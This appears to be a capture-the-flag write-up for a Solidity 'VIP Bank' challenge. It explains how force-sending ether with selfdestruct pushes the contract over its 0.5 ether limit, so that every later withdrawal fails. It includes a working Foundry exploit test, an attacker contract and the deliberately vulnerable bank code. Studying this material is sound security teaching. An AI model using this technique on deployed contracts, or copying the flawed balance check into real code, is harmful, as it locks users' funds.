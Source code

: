## VIP Bank attack

The bank only accepts deposits **<= 0.05 ether** and can only hold a maximum of **0.5 ether**.
If the contract balance is greater than 0.5 ether it is not possible to withdraw anything.
```solidity
require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
```

To break the bank, we just need to bring the contract balance over 0.5 ETH. With a **selfdestruct** it is always possible to force send ether to an contract, even if it has no fallback or receive ether function.

To prove the attack, we just need an contract which we selfdestruct and force send the ether to the bank.

## Test
forge test --match-contract=VIPBankTest

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract VIPBankTest is Test {

    address manager = 0x0000000000000000000000000000000000000001;
    address vip = 0x0000000000000000000000000000000000000002;
    address attacker = 0x0000000000000000000000000000000000000003;

    VIP_Bank public vipBank;

    function setUp() public {
        vm.prank(manager);
        vipBank = new VIP_Bank();

        vm.deal(manager, 5 ether);
        vm.deal(vip, 5 ether);
        vm.deal(attacker, 5 ether);
    }

    function testBlockTheBankFromWithdrawals() public {
        
        // check that manager is owner
        assertEq(manager, vipBank.manager());

        // add a vip
        vm.prank(manager);
        vipBank.addVIP(vip);

        uint256 startBalance = address(vipBank).balance;

        // check that we can deposit sth
        assertTrue(startBalance < 0.5 ether);

        // deposit some eth from vip
        vm.prank(vip);
        vipBank.deposit{value: 0.01 ether}();

        // deposit successful
        assertTrue(startBalance + 0.01 ether == address(vipBank).balance);

        // attacker breaks the withdraw
        vm.prank(attacker);
        new AttackTheBank{value: 0.6 ether}(address(vipBank));

        // bank now has more than 0.5 ether and withdraw will always break
        assertTrue(startBalance + 0.61 ether == address(vipBank).balance);

        vm.expectRevert(bytes("Cannot withdraw more than 0.5 ETH per transaction"));
        vm.prank(vip);
        vipBank.withdraw(0.01 ether);
    }
}

contract AttackTheBank {
    constructor(address bank) payable {
        selfdestruct(payable(bank));
    }
}

contract VIP_Bank{

    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }

}
```